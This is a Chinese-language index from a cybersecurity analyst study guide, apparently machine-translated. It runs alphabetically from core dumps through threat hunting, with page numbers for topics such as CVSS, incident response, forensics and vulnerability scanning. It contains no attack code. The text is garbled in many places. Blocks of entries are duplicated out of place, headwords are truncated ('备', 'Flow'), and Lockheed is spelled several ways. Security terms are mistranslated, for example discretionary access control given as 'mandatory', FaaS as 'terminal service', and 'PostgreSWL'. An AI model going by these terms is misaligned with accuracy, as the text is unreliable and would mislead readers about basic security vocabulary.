# 核心转储，471–472

# 钻石入侵分析模型中的核心特征，362

# 针对漏洞管理的公司策略，207

# 纠正控制，304

# 相关性，105

# 国家代码顶级域名 (ccTLD)，186

# 凭据扫描，216–217

# 凭据填充攻击，282

# 关键基础设施和运营技术，275

# 关键漏洞，429

# 跨站请求伪造 (CSRF/XSRF) 攻击，233, 281

# 跨站脚本 (XSS)，233, 277–279

# 加密算法失败，270–273

# 加密工具，457–458

# Cuckoo 沙盒，120

# 客户承诺，227

# 客户沟通，433

# CVSS 基础分，分类，255–256

# CVSS 分，总结，254–256

## CVSS 向量

- 分析活动，285–287
- 解释，253–254

# 2022 年《关键基础设施报告法案》(CIRCIA)，434

# 网络安全，自动化，28

## 网络安全分析

- 关于，4, 31
- 构建安全网络，12–19
- 网络安全目标，4–5
- 效率和流程改进，27–31
- 评估安全风险，6–12
- 考试要点，32–33
- 未来，31
- 实验练习，33–36
- 渗透测试，21–24
- 隐私与安全，6
- 反向工程，25–27
- 安全终端管理，19–21
- 网络安全事件响应 (CSIRT)，139, 345

# D

## 损害控制，398–406

## 暗网，139

## 暗网节点 (darknets)，151

## 数据

- 获取，470–472
- 从 DNS 采集，184–190
- 数据分类，209, 327
- 威胁生命周期中的数据收集，145
- 数据外泄，83–84, 96–97
- 数据格式，121–126
- 数据完整性，验证，388–389, 410, 465, 468
- 数据泄漏，473
- 数据泄防护 (DLP) 解决方案，67, 68
- 快速应用开发 (RAD) 模型中的数据建模，317
- 数据所有权策略，327
- 数据投毒，283
- 威胁生命周期中的数据处理与分析，145
- 数据保护。参见加密
- 数据留存策略，327
- 数据类型，360–361
- 使用 `dd` 工具进行镜像，466–467
- 调试模式，268–269
- 调试器，325
- 欺骗防御，18–19
- 事故宣告，432
- 反汇编译器，26
- 深网，139
- 通过欺骗进行防御，18–19
- 功能降级，430
- 延迟修复选项，225
- 洛克德攻击杀链中的交付阶段，364
- 非军事化区 (DMZ)，14
- 拒绝服务攻击 (DoS)，7, 87
- 分布式拒绝服务攻击 (DDoS)，87
- 网络攻击，88
- 恶意设备，88
- 扫描，87
- 扫射，87
- 威胁情报，142

## 事故响应的检测与分析，347

## 侦探控制，304

## 软件开发模型中的开发，317

## 软件开发生命周期 (SDLC) 中的开发阶段，311

## 设备指纹识别，167–168, 194

## DevOps

## DevSecOps

## 钻石入侵分析模型，362

## DigiNinja，188

## 数字取证工作站，449

## 数字签名，117

## 目录遍历攻击，279–280

## Dirty COW，265–266

## 通用安全原则 (GAPP) 的披露，6

## 实施发现，23

## 强制自主访问控制 (DAC)，21

## 数字取证，456

## 创建磁盘镜像，481–482

## 处置

- 在消除与恢复阶段期间，408–409
- 通用安全原则 (GAPP) 的，6

## 软件开发生命周期 (SDLC) 中的处置阶段，312

## 检测

- 常见网络问题，82
- 拒绝服务攻击 (DoS)，87
- 分布式拒绝服务攻击 (DDoS)，87
- 网络攻击，88
- 恶意设备，88
- 扫描，87
- 扫射，87
- 威胁情报，142

## 事故响应的检测与分析，347

## 侦探控制，304

## 软件开发模型中的开发，317

## 软件开发生命周期 (SDLC) 中的开发阶段，311

# 记录事件响应计划，353–354

## 域名命名系统 (DNS)

- DNS 放大攻击，386
- DNS 暴力破解，189
- DNS 发现，187
- DNS 记录项，187
- DNS 信誉服务，112–114
- DNS 汇洞，19
- DNS 隧道技术，387
- 从...收集数据，184–190
- 异常 DNS 流量，387

# 域名工具，190

# 域名转移诈骗，186

# 基于域的消息身份身份验证、报告和一致性 (DMARC)，118

# 域密钥识别身份邮件 (DKIM)，118

# 域名，186–187

# 不路由或对等列表 (DROP)，138

# 驱动适配器，450

## 驱动器

- 容量的消耗与监控，92
- 镜像制作，452

# DumpIt，471

# 动态代码分析，322

# 动态主机配置协议 (DHCP) 日志和文件，180–181

# E

## echo 请求，163–165

## 边缘发现扫描，308

## 电子数据 (eDiscovery)，388

## 员工教育，428

## 效率，提升，27–31

## 802.1X 协议，13

## 弹性块存储 (EBS)，230

## Elasticsearch, Logstash, 和 Kibana (ELK)，105

## ElcomSoft，457

## ELK (Elasticsearch, Logstash, and Kibana)，105

## 电子邮件

- 保护与分析，115–119
- 作为威胁，357
- 嵌入链接，117
- 员工意识，428
- 员工教育，428
- 员工培训，428

## `enable` 命令，182

## EnCase，454, 471

## 加密驱动器，处理，467

## 加密

- 关于，65–66
- 公共密钥基础设施 (PKI)，66–67
- 安全套接层 (SSL) 检查，67–68
- 针对加密的加密技术，321

## 寿命结束 (EOL) 漏洞，263–264

## 端点检测与响应 (EDR)，95, 110

## 端点取证，执行，455–458

## 端点管理，19–21

## 端点漏洞，261–269

## 一般接受隐私原则 (GAPP) 的执行，6

## 穷举，160–161

## 环境威胁，9

## 清除阶段

- 关于，406–407
- 系统和应用程序补丁，407–408
- 修复与重装，407
- 清除与安全处置，408–409

## 错误的错误处理，319

## 升级

- 事件升级，432
- 权限升级，384

## 欧盟 (EU) 通用数据条例 (GDPR)，6

## 评估

- 攻击框架，366–367
- 安全风险，6–12
- 软件，322–325
- 供应链，299–300
- 威胁情报，140–141

## 事件日志，106

## 事件查看器，106

## 事件

- 定义，344
- 网络，78–90

## 证据

- 关于，439
- 获取与处理，405
- 获取与保存，388–389
- 流程，330
- 留存，350–351, 412

## 证据获取

- 关于，465
- 获取其他数据，470–472
- 取证级副本，465–466
- 处理加密驱动器，467
- 运行系统镜像，468–469
- 使用 `dd` 镜像，466–467
- 重装系统，469
- 使用写保护器，468
- 验证数据完整性，468

## 考试重点

- 遏制、清除与恢复，413
- 网络安全分析，32–33
- 事件响应的取证分析与技术，481
- 事件检测与分析，390
- 事件响应程序，368–369
- 恶意活动，127–128
- 侦察与情报收集，192–193
- 报告与通信，440
- 系统与网络架构，70
- 威胁情报，152–153
- 漏洞，333–334
- 漏洞管理，238–239
- 漏洞扫描，284–285

## 异常，331–332

## 执行摘要，437

## 渗透测试的练习，24

## 漏洞利用评分计算，255

## 洛克希德攻击杀链中的利用阶段，365

## 漏洞利用列表 (XBL)，138

## 暴露因子 (EF)，299–300

## 正则表达式，123

## 可扩展配置检查列表格式 (XCCDF)，221

## 外部扫描，217

## 外部/可移动媒体作为威胁，357

# F

## Facebook 连接，56

## 漏报，215

## 误报，215, 256

## 故障注入，323

## 软件开发生命周期 (SDLC) 中的可行性阶段，311

## 联邦信息处理标准 (FIPS)，205–206

## 联邦信息安全管理法 (FISMA)，205–207

## 联邦化

- 关于，56–57
- 活动目录联邦标识服务 (AD FS)，62–63
- 联邦身份设计选择，59–61
- 联邦身份安全考量，57–58
- 联邦身份技术，61–64
- OAuth，63–64
- OpenID Connect，64
- 安全断言标记语言 (SAML)，62

## 威胁情报生命周期中的反馈，145

## 文件包含攻击，280

## 文件传输协议 (FTP), 267–268

# 文件

## 分析，119–120

## 休眠，471–472

## 修改，384–385

## 结构与位置，43–44

## 文件系统，变更与异常，92

## 最终报告，开发，411–412

# 指纹识别

## 设备，167–168

## 操作系统，167–168

## 用于此软件，26

## 防火墙日志，108

# 防火墙

## 关于，14–17

## 日志与配置文件，181–183

## 作为本地网络架构，47

# 固件，缺失更新的，269–270

# 修复，测试与实施，225

# fmem，471

# 刑事取证分析与技术，用于应急响应

## 关于，349, 448, 480–481

## 复习问题的答案，511–512

## 构建取证能力，448–450

## 云端、虚拟和容器取证，460–462

## 执行，463

## 执行端点取证，455–458

## 考试要点，481

## 取证调查案例，472–480

## 取证软件，450–455

## 实验室练习，481–483

## 网络取证，458–460

## 事后活动与证据获取，462–472

## 复习问题，484–487

## 取证副本，465–466

## 取证驱动器复制器，449

## 取证镜像，导入，473–474

# 取证调查

## 关于，472–473

## 分析镜像，474–478

## 示例，472–480

## 发现与分析，479

## 目标，478

## 导入取证镜像，473–474

## 经验训，480

## 报告，478–479

## 根因分析，479–480

## 套件，449

## 目标对象，478–479

## 取证程序，463–464

# 取证软件

## 关于，449

## 分析工具，452

## 能力与应用，450–451

## 数据刻寻，452

## 证据链，454

## 哈希校验与验证，454–455

## 镜像介质与驱动器，452

# 论坛，139

# 转发事件，183

# 转发，116

# 发现，470

# FTK Imager，389, 471

# 安全 FTP (FTPS)，267–268

# 终端服务 (FaaS)，38

# 功能性影响，358–359

# 不安全的函数，320

# 模糊测试，322–323

# G

## 通用数据保护条例 (GDPR)，6

## 一般隐私原则 (GAPP)，6

## 通用顶级域名 (gTLD)，186

## GNU 调试器 (GDB)，325

## 取证调查目标，478

## Google，59–60, 189

## Google 域名，186

## 格莱姆-莱希利法案 (GLBA)，204

## 图形用户界面 (GUI)，172

## `grep` 命令，123–125

## 组策略，20

## 组策略对象 (GPO)，20, 21, 34–35

## 指南，330–331

# H

## 溯源技术，用于威胁猎捕，151

## 黑客分子，作为威胁者，147

# 加固

## 操作系统，41–42

## 系统配置，19

# 硬件

## 架构，45

## 用于反向工程，26–27

## 写保护阻断器，468

# 从 DNS 和 Whois 获取数据，184–190

# 哈希处理，454–455

# 健康保险流动性与责任法案 (HIPAA)，204

# 启发式算法，85

# 休眠文件，471–472

# 蜜网项目，151

# 蜜罐技术，18–19, 151

# `host` 命令，190

# 主机入侵系统 (HIPS)，20

# 主机相关

## 调查，91

## 恶意进程，95

## 恶意软件，95

## 社会工程，99–100

## 系统资源，91

## 未经授权的访问与变更，97–99

## 未经授权的软件，95

# 主机，Ping 测试，163

# 混合网络

## 架构，49

# I

## 身份识别失败，281

## 身份 身份，53

# 身份与访问管理 (IAM)

## 关于，53

## 活动目录服务 (AD FS)，62

## 云访问安全暴器 (CASBs)，65

## 联邦身份，57

## 联邦身份，56

## 多因素身份认证 (MFA)，54–55

## OAuth 2.0 协议，63–64

## OpenID Connect，64

## 无密码登录，55

## 特权访问管理 (PAM)，64–65

## SAML，62

## 单点登录 (SSO)，55–56

# 身份提供者 (IDP)，57

# 镜像，分析

## 分析，474–478

# 镜像

## 实时系统，468–469

## 介质与驱动器，452, 466

# 免疫调试器，325

# 入站防火墙规则创建，33–34

# 事件响应计划制定，370

# 事件遏制措施活动，414–415

# 事件检测与分析

## 关于，378, 389–390

## 复习习题，505–507

## 证据获取与保存，388–389

## 考试要点，390

## 封陷指标 (IoCs)，378–380

## 调查失陷指标 (IoCs)，381–387

## 实验习题，391–392

## 复习习题，393–396

# 事件清除与恢复。参考清除阶段;恢复阶段

# 事件报告活动，442

# 事件响应

## 计划制定，353–354

## 效率，29–31

## 指标与 KPI，436–437

## 执行取证分析与技术（针对事件响应的取证分析

## 过程，398

## 报告，437–439


# 报告与沟通，431–439

# 威胁情报与 142

# 事件响应计划

- 关于，344, 367–368
- 复习习题，503–504
- 攻击框架，361–367
- 基础构建，351–354
- 事件分类，356–361
- 事件响应团队创建，354–356
- 考试要点，368–369
- 实验习题，369–371
- 阶段，345–351
- 复习习题，372–375
- 安全事件，344–345

# 事件响应团队创建，354–356

# 事件严重分类活动，369

# 事件

- 分类，356–361
- 声明与升级，432

# 攻击指标 (IoAs)，378

# 封陷指标 (IOCs)

- 关于，86, 306, 378–380, 411
- 组合，387
- 拒绝服务 (DoS)攻击，385–386
- 文件和配置修改，384–385
- 资源使用增加，382–383
- 调查，381–387
- 登录和权限使用异常，385
- 类型，150–151
- 异常 DNS 流量，387
- 异常网络流量，381–382
- 异常的用户和账户行为，383–384

# 工业控制系统 (ICSs)，275

# 漏洞管理行业标准，207–208

# 信息聚合工具，190

# 信息分析工具，190

# 使用数据包捕获收集信息，190

# 信息安全策略

- 关于，325
- 异常与补偿控制，331–332
- 指南，330–331
- 策略，326–327
- 流程，329–330
- 标准，327–329

# 信息共享中心 (ISACs)，145–146

# 信息共享与分析组织 (ISA) 计划，137

# 信息结果，257–258

# 基础设施

- 概念与设计，38–40
- 漏洞扫描，228–229
- 注入攻击，276
- 注入缺陷，276–277
- 输入验证，321
- 不安全设计，267–268
- 内部威胁，作为攻击者，147

# 安装

- 洛克希德杀链 (Lockheed's Kill Chain) 中的阶段，365
- 漏洞扫描活动，239–240
- 集成技术/工具，29

# 完整性

- CIA 三要素模型，4–5
- 损失，360–361
- 指标，252
- 生命周期中的情报分发，145
- 信息收集。参考信息收集
- 拦截，235–237
- 内部足迹，168
- 内部 IP 泄露，274
- 内部扫描，217

# 国际标准组织 (ISO)，208

# 互联网数字分配机构 (IANA)，166, 186

# 控制消息协议 (ICMP)，81, 164

# 互联网工程任务组 (IETF)，63

# 物联网 (IoT)，275

# 解释

- CVSS 向量，253–254
- 漏洞扫描活动，285

# 入侵检测系统 (IDSs)

- 日志，109–110
- 作为本地网络架构，47

# 入侵防护系统 (IPSs)

- 日志，109–110
- 作为本地网络架构，47

# Alienvault 开放威胁交换中的 IoCs，391

# 内部 IP 泄露，274

# IP 范围，186–187

# iPerf，81

# 隔离，25, 402–403

# IT 治理，227

# IT 服务管理 (ITSM) 工具，221–222

# J

# J-Flow，79

# Joe Sandbox，120

# JSON，125–126

# 跳板机，17–18, 50

# 跳板服务器。参考跳板机

# K

# 关键性能指标 (KPIs)

- 事件响应，436–437
- 漏洞管理，428–429

# 知识因素、多因素身份验证 (MFA) 与，54

# Kubernetes，39

# L

# 实验习题

- 遏制、清除与恢复，414–416
- 网络安全分析，33–36
- 取证分析与技术，针对事件响应的 481–483
- 事件检测与分析，391–392
- 事件响应计划，369–371
- 恶意活动, 128–130
- 侦察与情报收集, 193–195
- 报告与通信, 441–442
- 系统与网络架构, 70–72
- 威胁情报, 153–154
- 漏洞, 334–335
- 漏洞管理, 239–240
- 漏洞扫描, 285–287

# 标记工具, 450

# 拉丁美洲和加勒比网络信息中心 (LACNIC), 187

# 执法部门、事件通信与, 435

# 旧系统, 227, 430

# 法律顾问、事件通信与, 433

# 法律留存, 388, 392, 464–465

# 经验教训

- 召开会议, 411
- 取证调查中的, 480
- 事件通信与, 436
- 回顾, 349–350

# 日志级别, 46

# 漏洞扫描的许可限制, 211

# 情报生命周期, 144–145

# 轻量级目录访问协议 (LDAP), 56

# 可能性，确定, 10–11

# LiME, 471

# Linux 服务, 102–103

# 现行系统镜像, 468–469

# 负载测试, 87, 323–324

# 本地文件包含 (LFI)攻击, 280

# 位置

- 作为 NAC 解决方案的标准, 14
- 文件的位置, 43–44
- 多因素身份认证 (MFA)和, 54

# 洛希德·马丁的网络杀伤链, 364–366

# 日志分析, 105, 175–183

# 日志数据，获取与审查, 470

# 日志查看器, 458

# 日志

- 关于, 69
- 考虑因素, 47
- 不足, 320
- 级别, 46
- 时间同步, 45–46

# 登录，使用异常, 385

# 日志

- 关于, 105–106, 347
- 事件, 106
- 防火墙, 108
- 入侵检测系统 (IDSs), 109–110
- 入侵防护系统 (IPSs), 109–110
- 代理, 109
- 对齐, 258
- 安全设备, 107–110
- 设备损失作为威胁, 357
- MAC 地址检查, 88–89
- 机器学习 (ML), 114, 283
- 风险规模, 296
- 维护窗口, 309

# 恶意活动

- 关于, 78, 126
- 网络事件, 78–90
- 回习问题, 492–493
- 确定与技术, 104–126
- 考试要点, 127–128
- 主机相关问题, 91–100
- 服务与应用相关问题, 100–104
- 实验, 128–130
- 回习问题, 131–134

# 恶意进程, 95–97

# Maltego, 172

# 恶意软件, 95–97

# 管理控制, 304

# 强制访问控制 (MAC), 21

# 中人攻击 (MitM) attacks, 282–283

# 映射, 160–163

# MD5, 119, 454

# 平均检测时间, 436

# 平均修复时间, 436

# 平均响应时间, 436

# 媒体

- 通信, 434
- 镜像, 452

# 解解备忘录 (MOUs), 227, 430

# 内存

- 消耗与监控, 91
- 端点取证与内存储分析, 455–458
- 取证, 456

# 内存驻留数据，捕获, 470–471

# 钻石入侵模型中的元特征, 362

# Metasploit, 96

# Metasploit 框架 (MSF), 172–173, 194–195

# 指标

- 事件响应, 436–437
- 漏洞管理, 428–429

# 微软

- 端点管理器, 95
- 威胁情报博客, 137

# 微软远程过程调用 (MSRPC), 169–170

# MISP 威胁共享项目, 137

# 缺失固件更新, 269–270

# 缺失补丁, 261–263

# 缓解方案, 425

# MITRE ATT&CK 框架, 362

# 网络架构

- 网络架构。参见系统和网络架构

# 网络设备

- 配置，177
- 日志与，175–179
- 日志，175–176
- Netflow，177–178
- netstat，178–179

# 网络事件

- 分析，78–90
- 捕获网络相关事件，79–82
- 探测并发现流氓设备，88–90
- 检测常见的网络问题，82–86
- 检测拒绝服务 (DoS) 和分布式拒绝服务 (DDoS) 攻击，87–88
- 检测网络攻击，88
- 检测扫描和横扫，86–87

# 网络取证

- 关于，458
- Tcpdump，459–460
- Wireshark，458–459

# 网络扫描

- 关于，89
- 如本地网络架构中的，48
- 补充，216–217

# 网络分段，17–18, 49–51

# 网络时间协议 (NTP)，46

# 网络相关事件，捕获，79–82

# 网络

- 构建安全网络，12–19
- 检测攻击，88
- 识别扫描，128–129
- 映射，162–163
- 边界安全，14–17
- 异常流量，381–382
- 漏洞，269–274
- Nexpose，229
- 下一代防火墙 (NGFWs)，17
- Nikto，233, 234
- nmap，169–170
- 笔记本，450
- 通用接受原则 (GAPP) 注意 6

# OAuth，56, 61, 63–64

- 不安全的对象引用，19–320
- 软件生命周期 (SDLC) 中的持续运行与维护，312
- 持续扫描，222
- 路径攻击，282–283
- 本地网络架构，47–48
- 开放妥陷指标 (OpenIOC)，143
- 开源情报调查 (OSINT)，136, 137–139, 173–174
- 开放源安全测试方法手册 (OSSTMM)，161, 367
- 开放漏洞与评估语言 (OVAL)，221
- 开放 Web 应用安全项目 (OWASP)，208, 367
- OpenFlow，51–52
- OpenID，56
- OpenID Connect，56, 61, 64
- OpenIOC (开放妥陷指标)，143
- 开放威胁交换，137
- OpenVAS，229

# 操作系统 (OS)

- 终端取证与，455–458
- 文件结构/位置，43–44
- 指纹识别，167–168
- 加固，19, 72
- 硬件架构，45
- 作为 NAC 解决方案标准的健康状况，14
- 隔离受影响的，402–403
- 补丁，407–408
- 进程，44
- 镜像，469
- 系统加固，41–42
- 系统进程，44
- Windows 注册表，42–43

# 操作系统资源

- 磁盘容量与监控，92
- 文件系统更改与异常，92
- 内存消耗与监控，91
- 监控工具，92–95
- 处理器消耗与监控，91
- 运行控制，12, 304
- 运营技术 (OT)，275
- 扫描限制，211
- 精简化，28

# 结构化信息推进组织 (OASIS)，143

# 组织治理，430

# 有组织犯罪作为威胁，146

# 原始设备制造商 (OEMs)，26

# 过时组件，263–264

# 带外 NAC 解决方案，13

# 输出编码，321

# OVAL (开放漏洞与评估语言)，221

# 克服漏洞扫描风险，227–228

# OWASP (开放 Web 应用项目)，208, 367

# 数据包捕获

- 关于，111–112
- 使用...收集信息，190–192
- 渗透测试者，174
- 数据包过滤防火墙，16
- 数据包嗅器，458
- Pacu，230, 233
- 付费数据源，139
- 参数化查询，321

# 被动发现

- 关于，175, 308
- 配置分析，175–183
- 从 `DNS` 采集数据，184–190
- 信息聚合与分析工具，190
- 使用数据包捕获收集信息，190–192
- 日志分析，175–183
- 被动监控，82
- 被动扫描，212
- 密码破解器，456–457
- 密码策略，327
- 密码恢复，456–457
- 密码复用，281–282
- 喷扫密码攻击，281–282
- 无密码认证，55
- 补丁管理，19–20, 310

# 补丁

- 关于，427
- 缺失补丁，261–263
- 流程，330
- 系统与应用，407–408

# 模式识别，114–115

# 支付行业数据安全标准 (PCI DSS)，160, 205, 213–214, 332

# 支付行业安全标准委员会 (PCI SSC)，205

# 渗透测试

- 关于，21–22
- 敌手模拟与，308
- 资产发现与，161
- 通报...的结果，24
- 进行发现，23
- 执行，23–24
- 计划，22–23
- 培训与练习，24
- 编写计划活动，35–36
- 渗透测试执行标准 (PTES)，161
- 渗透测试人员，包捕获，174
- 人员，347
- 漏洞扫描性能限制，211
- 性能监控器 (perfmon)，92, 93
- 边界安全，14–17
- 持久 XSS 攻击，277
- 个人身份信息 (PII)，5, 68
- 应急响应阶段，345–351
- 钓鱼攻击，117, 129–130
- `ping` 命令，165
- ping 测试，81, 163–165
- 计划扑牌 (planning poker)，316
- 平台服务 (PaaS)，48
- 剧本 (playbooks)，352–353
- 插件，29, 215, 219–220
- 销售点 (POS) 系统，20
- 策略，352, 326–327
- 策略封禁列表 (PBL)，138
- 端口范围，170

# 端口扫描

- 相关活动，193–194
- 工具与技术，165–174

# 端口安全，89

# 容器化与移植性，40

# PortSwigger，237

# 正面报告，256

# 因素，多因素身份认证 (MFA) 与，54

# PostgreSWL 工作负载分析器 (PoWA)，382–383

# 事故后活动。*另见 证据提取*

- 关于，349–351, 462
- 获取其他数据，470–472
- 进行取证分析，463
- 取证程序，463–464
- 镜像实时系统，468–469
- 法律留存与保护，464–465
- 重新镜像系统，469

# PowerShell，122–123

# 应急响应准备阶段，346

# 保护，388–389, 464

# 总统决定指令-63 (PDD-63)，145–146

# 预防性控制，304

# 主账号号码 (PAN)，68

# 优先级，224–226, 425

# 隐私与安全的对比，5–6

# 权限提升，265–266

# 权限管理，53

# 特权访问管理 (PAM)，64–65

# 权限要求指标 (PR)，251

# 风险概率，296

# 过程，329–330, 352

# 攻击模拟与分析过程 (PASTA)，305

# 快速开发 (RAD) 模型中的过程建模，317

# 过程

- 变更控制，411
- 端点取证与，455–458
- 改进，27–31
- 恶意，95–97
- 标准化，28
- 系统，44
- 处理器消耗与监控，91
- 产品多样性，50–1
- 私有情报，139–140
- 私有系统，227, 430

# 受保护的健康信息 (PHI)，68, 204

# 保护电子邮件，115–119

# 协议分析，85

# 应急响应供应商，355

# 备，59

# Prowler，232, 234

# 代理日志，109

# 公共事故报告活动，441

# 公钥基础设施 (PKI)，66–67

# 公共关系与应急沟通，433–434

# 公开信息，347

# 安全丢弃的擦除选项，408

# Python，121–122

# 定性风险评估，297, 298–299

# 通用接受隐私原则 (GAPP)，6

# Qualys，228–229, 249

# 定量风险评估，297–298

# 竞态条件，320

# 勒索软件剧本，353

# 快速开发 (RAD) 模型，317

# Rapid7，229

# 建议，437

# 恢复努力，359

# 侦察与情报

- 关于，160, 192
- 主动，161–162
- 相关活动，154
- 问题解答，495–497
- 通用工具，169–174
- 配置分析，175–183
- 设备指纹识别，167–168
- 基础，192–193
- 从 DNS 获取数据，184
- 信息聚合与分析，190
- 使用包捕获获取信息，190


- 实验，193–195
- 日志分析，175–183
- 映射、枚举与资产发现，160–174
- 映射网络，162–163
- 操作系统指纹识别，167–168
- 被动发现，175–192
- `ping` 测试主机，163–165
- 端口扫描工具与技术，165–174
- 复习问题，196–199
- 服务发现工具与技术，165–174
- 服务识别，168–169
- 作为洛克希德网络杀杀链中的阶段，364, 365
- 拓扑，162–163
- 版本识别，168–169
- `Recon-ng`，173–174
- 恢复阶段
  - 关于，406–407
  - 补补系统和应用程序，407–408
  - 修复与重新镜像，407
  - 洁化与安全丢弃，408–409
- 复发，425
- 反射 XSS 攻击，277
- 注册端口，166
- 回归测试，324
- 正则表达式（regex），123–125
- 监管环境，关于漏洞管理，204–207
- 监管报告、事件通报与，434–435
- 监管要求，针对漏洞扫描，211
- 重新映像系统，469
- 信赖方（RP），57
- 修复
  - 开发工作流用于，221–226
  - 在清除和恢复阶段，407
  - 修复的抑制因素，430
  - 漏洞活动，287
- 远程认证拨号用户服务（RADIUS），13
- 远程代码执行，266–267
- 远程桌面协议（RDP），17
- 远程文件包含（RFI）攻击，280
- 移除受损系统，403–405
- 续订域名，186
- 报告与沟通
  - 关于，424, 439
  - 复习题的答案，509–511
  - 考试要点，440
  - 在取证调查中，478–479
  - 事件响应，431–439
  - 实验室练习，441–442
  - 复习习题，443–446
  - 漏洞管理与，222–224, 424–431
  - 漏洞扫描的，247–256
- 请求伪造攻击，280
- 要求，针对漏洞管理，204–212
- 威胁研究，305–307
- 欧洲网络 IP 地址协调组织（RIPE），187
- 资源监器（`resmon`），92, 93
- 资源使用增加，382–383
- 响应
  - 最终确定，410–412
  - 针对漏洞的，293–339
  - 响应性控制，304
  - 漏洞扫描的结果，256–260
- 留存
  - 证据的，412
  - 通用隐私原则（`GAPP`）用于，6
- 逆向工程
  - 关于，25
  - 硬件的，26–27
  - 隔离，25
  - 沙箱化，25
  - 软件的，25–26
- 复习题
  - 遏制、恢复，417–420
  - 事件响应的取证分析与技术，484–487
  - 事件检测与分析，393–396
  - 事件响应程序，372–375
  - 恶意活动，131–134
  - 侦察与情报，196–199
  - 报告与沟通，443–446
  - 系统与网络架构，73–76
  - 威胁情报，155–158
  - 漏洞，336–339
  - 漏洞管理，241–244
  - 漏洞扫描，288–291
  - 使用异常，385
- 风险接受，302–303
- 风险偏好，211
- 风险规避，302
- 风险管理
  - 关于，300
  - 活动活动，335
  - 风险接受，302–303
  - 风险规避，302
  - 风险缓解，300–302
  - 风险转移，302
  - 策略活动，334
- 风险缓解，300–302
- 风险评分，425
- 风险转移，302
- 风险
  - 关于，7
  - 分析，294–300
  - 计算，296
  - 定义，294
  - 确定，10–11
  - 识别与评估，334
  - 识别过程，295–296
  - 可能性，297
  - 针对漏洞扫描的克服，227–228
  - 严重性，296
  - 发现与寻找非法设备，88–90
  - 作为 NAC 标准的角，14
  - 根原因分析（`RCA`）。参见根原因分析（`RCA`
  - 根密钥，42
  - 根内核，265–266
  - 基于路由器的监控，79
  - 运行扫描，240
- 沙箱
  - 沙箱化，120, 403
  - 净化技术，416
  - 在清除和恢复阶段，408–409
  - `SANS`，96
  - `SANS way`，138
  - 扫描视角，217
  - 授权的计划任务，98–99
  - 计划扫描，210–212
  - `schtasks` 命令，98
- 范围
  - 关于，439
  - 控制的，356
  - 影响的，358
  - 针对指标，253
  - 漏洞扫描的，213–214
  - `Scout` 组，229–230
- 筛选子网，15
- 脚本小子，作为攻击者，147
- 安全访问服务边缘（SASE），52–53
- 安全端点管理，19–21
- 安全文件传输协议（SFTP），267–268
- 安全哈希算法（`SHA`），26
- 安全 Shell（`SSH`），17
- 安全套接层（`SSL`），67–68, 270
- 安全
  - 设备与工具，110–111
  - 设计与编码，319–321
  - 电子邮件，118–119
  - 端点软件，20–21
  - 评估风险，6–12
  - 联邦身份与，57–58
  - 通用隐私原则（`GAPP`）用于，6
  - 识别工具，483
  - 配置错误，268–269
  - 移动设备上的，262–263
  - 隐私对比，5–6
  - 识别工具，36
- 安全、审计与合规利益相关者，426
- 安全断言标记语言（`SAML`），61–62
- 安全内容自动化协议（`SCAP`），220–221
- 安全控制
  - 实现，303–304
  - 测试，308
- 安全设备日志，107–110
- 安全工程、威胁情报与，142
- 安全事件，344–345
- 安全信息和事件管理（`SIEM`），30, 105, 110, 259
- 安全日志，183
- 安全编排、自动化与响应（`SOAR`），28, 29, 110–111
- 安全增强型 Linux（`SELinux`），21
- 分段，49–51, 400–401
- 发送策略框架（`SPF`），117, 118
- `Senki.org`，137
- 敏感数据泄露，320
- 漏洞扫描的敏感级别，214–215
- 服务器漏洞，261–269
- 无服务器计算，38–39
- 服务器端请求伪造（`SSRF`）攻击，281
- 服务等级协议（`SLAs`），430
- 服务水平目标（`SLOs`），329, 429
- 服务提供商（SP），57
- 服务等级协议（`SLAs`），227
- 调查相关问题，100–104
- 服务
  - 降级，227
  - 识别，168
  - 监控，100–101
  - 发现工具与技术，165–174
- 会话劫持，283
- 会话管理安全性，321
- 严重性分类，358–361
- `Flow`，79
- `SHA1`，454
- `SHA256`，119
- 共享评估，48
- 共享身份认证，55
- 共享威胁情报，142–144
- Shell 脚本，122
- `show logging` 命令，182
- `SIFT`，452
- 网络管理协议（SNMP），79, 175, 177
- 单次损失预期（SLE），297
- 单一显示界面，29
- 单点登录（SSO），55–56
- 现场勘测，89
- 爱德华·斯诺登（Edward Snowden），27, 300
- 社会工程学，99–100
- 社交媒体，139
- 软件
  - 评估，322–325
  - 保证最佳实践，310–318
  - 常见开发安全问题，319–320
  - 开发模型，313–317
  - 设备指纹识别，26
  - 取证的，449
  - 用于逆向工程，25–26
  - 扫描器，219
  - 安全测试，321–325
  - 未授权的，95
  - 写入阻塞，468
- 软件即服务（SaaS），48
- 软件开发周期（SDLC），310–311
- 软件定义广域网（SDN-WAN），52
- 软件定义网络（SDN），51–52
- 源代码分析，322
- `Spamhaus`，138
- `Spamhaus` 列表（SBL），138
- 螺旋模型，314–315
- `Splunk`，105
- 利益相关者的识别与沟通，426, 431
- 标准化流程，28
- 标准，327–329
- 基于标准的威胁信息共享，142–144
- 授权（SOA），188
- 状态检测防火墙，17
- 静态代码分析，322
- `STIX/TAXII` 馈，153–154
- 简化操作，28
- 压力测试应用，323–324
- `STRIDE` 分类，305
- `strings`，120
- 结构性威胁，9
- 文件结构，43–44
- 结构化威胁信息（STIX），143
- 主体，53
- CVSS 评分汇总，254–256
- 监控控制数据采集（SCADA）系统，275
- 补充网络扫描，216–217
- 供应链
  - 评估，299–300
  - 威胁活动者，147
  - 异常登录识别，391–392
  - 扫描检测，86–87
- `Sysinternals` 工具包，93, 98
- `Syslog`，107
- 系统与网络架构
  - 简介，38, 68
  - 复习题答案，490–491
  - 云网络架构，48–49
  - 加密与敏感数据保护，65–68
  - 考试要点，70
  - 混合网络架构，49
  - 身份与访问管理（IAM），53–65
  - 基础架构概念与设计，38–40
  - 实验练习，70–72
  - 日志，45–47
  - 网络分段，49–51
  - 本地网络架构，47–48
  - 操作系统概念，41–45
  - 复习题，73–76
  - 安全访问服务边缘（SASE），52–53
  - 软件定义网络（SDN），51–52
  - 零信任，52
- 系统日志文件，183
- 系统端口，166

## T

- 战术、技术与程序（TTP），147–148
- 取证调查目标，478–479
- 威胁猎用的引诱阱，151
- 任务调度程序，98–99
- `Tcpdump`，111–112, 459–460
- 技术控制，12, 303
- 技术利益相关者，426
- 技术
  - 联邦身份认证，61–64
  - 集成，29
- 终端访问控制控制系统（TACACS），177
- 测试
  - 代码，322–325
  - 策略制定，367
  - 修复，225
  - 应急响应计划，356
  - 在快速应用开发（RAD）模型中，317
- 软件开发生命周期（SDLC）中的测试与集成阶段，312
- 作为威胁的设备盗窃，357
- 威胁者，146–147
- 威胁狩
  - 关注，149–150
  - 主动性，148–149
